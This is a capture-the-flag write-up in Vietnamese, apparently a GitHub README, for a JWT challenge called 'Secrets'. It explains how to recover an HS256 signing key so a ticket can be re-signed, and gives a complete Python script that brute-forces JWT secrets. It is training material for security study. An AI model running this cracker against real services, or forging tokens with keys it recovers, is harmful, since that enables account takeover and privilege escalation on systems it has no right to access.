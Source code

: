 # CookieArenaS2Writeup
Challenge: Secrets

"You’re a senior cyber security engineer and during your shift, we have intercepted/noticed a high privilege actions from unknown source that could be identified as malicious. We have got you the ticket that made these actions.
You are the one who created the secret for these tickets.
Please fix this and submit the low privilege ticket so we can make sure that you deserve this position."

Được rồi, như đề bài ta có thể tóm gọn lại câu chuyện như sau: bản thân là một senior cybersec engineer, và trong 1 lần làm việc thì họ đã phát hiện ra một cuộc tấn công leo thang đặc quyền cao, ticket đã bị sửa đổi bởi hacker với mục đích xấu và tất cả những gì chúng ta phải làm là đưa ticket trở lại bình thường và submit low privilege ticket và secret key 

Trước hết, ta có thể dễ dàng xác định đây là JWT Token, với cấu trúc cơ bản là: **header - payload - signature** mỗi một phần được mã hóa bằng base64 và trong challenge này phần signature sẽ là phần ta cần chú ý nhiều nhất.

Vậy vấn đề thật sự là gì, khi JWT Token được gửi lên server, nếu muốn thay đổi dữ liệu nào đó một cách hợp lệ thì ở phía client cần signing lại token trước khi gửi lên server và sẽ được server chấp thuận nếu như secret key ở cả hai bên giống nhau => ta cần phải tìm ra secret key sao cho trùng khớp với key ở phía server

Độ dài của secret key tối đa là 256 bits (32 bytes) nên ta hoàn toàn có thể yên tâm ngồi brute force đến khi nào ra key thì thôi :> 

Nếu các bạn không brute ra được key bằng các công cụ bình thường thì cũng đừng bất ngờ, vì bài mức hard mà, đâu dễ dàng gì đúng không nào, vì chúng ta đều biết rằng những vụ tấn công liên quan đến JWT Token là thiên biến vạn hóa, secret key cũng có thể nằm trong các wordlist có sẵn nhưng cũng có thể không nằm trong bất cứ wordlist nào. Do đó tự tạo script để giải quyết các vấn đề luôn là cách hữu hiệu và đầy mạnh mẽ.
  
Ở đây ta sẽ tạo 1 script nho nhỏ bằng python để brute force ra key:
```#!/usr/bin/env python3
#Usage is as follows: ./jwtbrute.py MyJWTToken [keyspace] [min key length] [max key length] [-s for silent]
import jwt
import sys
from itertools import chain, product
found = False
attempts = 0
#Command line arguments: 0 = program, 1 = Token, 2 = Alphabet, 3 = minLength, 4 = MaxLength
pArgs = sys.argv
if len(pArgs) < 2:
    sys.exit("Incorrect syntax; try: ./jwtbrute.py MyJWTToken [keyspace] [min key length] [max key length] [-s for silent]")
myToken = pArgs[1] #your JWT token.
if len(pArgs) >= 3:
    myAlpha = pArgs[2] #keyspace - default is full upper and lower case, plus numbers, plus special characters
else:
    myAlpha = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890!@#$%^&*()_-+"
if len(pArgs) >= 4:
    minLength = int(pArgs[3]) #min length of guess, default is 1
else:
    minLength = 1
if len(pArgs) >= 5:
    maxLength = int(pArgs[4]) #max length of guess, default is 4
else:
    maxLength = 4

if len(pArgs) >= 6 and pArgs[5] == "-s":
    silent = True
else:
    silent = False
if int(maxLength) < int(minLength):
    sys.exit("Error: Max key length cannot be less than min key length.")

def brute(charset, keylength, keymin):
    return (''.join(candidate)
        for candidate in chain.from_iterable(product(charset, repeat=i)
        for i in range(keymin, keylength + 1)))

for keyl in brute(myAlpha, maxLength, minLength):
    attempts += 1
    try:
        jwt.decode(myToken, keyl, algorithms=["HS256"])
        sys.stdout.write("Key Found! %s\n" % (keyl))
        sys.stdout.flush()
        found = True
    except jwt.exceptions.InvalidSignatureError:
        pass

    #-s for silent mode will hide these messages
    if silent == False:
        if attempts % 1000 == 0:
            sys.stdout.write("Currently on attempt %s\n" % (attempts))
            sys.stdout.write("Current Guess: %s\n" % (keyl))

    if found == True:
        sys.exit("Key found in %s attempts." % (attempts))

if found == False:
    sys.exit("Key not found after %s attempts." % (attempts))```
  
